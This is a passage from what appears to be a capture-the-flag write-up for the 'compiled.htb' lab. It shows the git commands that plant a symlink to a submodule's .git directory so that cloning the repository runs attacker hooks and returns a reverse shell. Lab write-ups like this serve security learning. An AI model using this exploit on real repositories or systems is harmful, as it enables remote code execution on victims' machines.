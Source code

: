 3. Commit this change and then run:

```bash
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
```

This is the crux of the exploit, let's break it down a bit:

- (a) Create a file named `dotgit.txt` containing the string `.git`:

   ```bash
   printf ".git" > dotgit.txt
   ```

   This command writes the string `.git` to a file named `dotgit.txt`. This file will be used in the next step to generate a Git object.

- (b) Generate a Git hash object from the contents of `dotgit.txt`:

   ```bash
   git hash-object -w --stdin < dotgit.txt > dot-git.hash
   ```

   Here, the `git hash-object` command reads the contents of `dotgit.txt` and creates a Git blob object. The `-w` flag writes this object to the Git object database, and the resulting hash is saved in the file `dot-git.hash`.

- (c) Prepare an index entry for the Git submodule with the symlink pointing to the `.git` directory:

   ```bash
   printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
   ```

   This command formats a string with the appropriate Git index entry for a symlink. The mode `120000` indicates a symlink, and the hash of the object created in the previous step is inserted into the string. The result is saved to `index.info`.

- (d) Update the Git index with the new entry from `index.info`:

   ```bash
   git update-index --index-info < index.info
   ```

Finally, the `git update-index` command reads the formatted string from `index.info` and updates the Git index with this new entry. This effectively adds a symlink in the repository that points to the `.git` directory of the submodule.

By creating a symlink to the `.git` directory, this setup can trick the victim into executing malicious hooks or commands when they interact with the repository. This specific manipulation allows the attacker to execute code on the victim's machine when the repository is cloned and checked out, leveraging Git's behavior with submodules and symlinks.

4. Commit this and push the changes.

**Triggering the Exploit**

We visit `http://compiled.htb:5000`, where the compilation app is hosted, and submit the `.git` URL of the second repository to execute the cloning and receive our reverse shell. This may need to be done multiple times due to inconsistencies with the server.
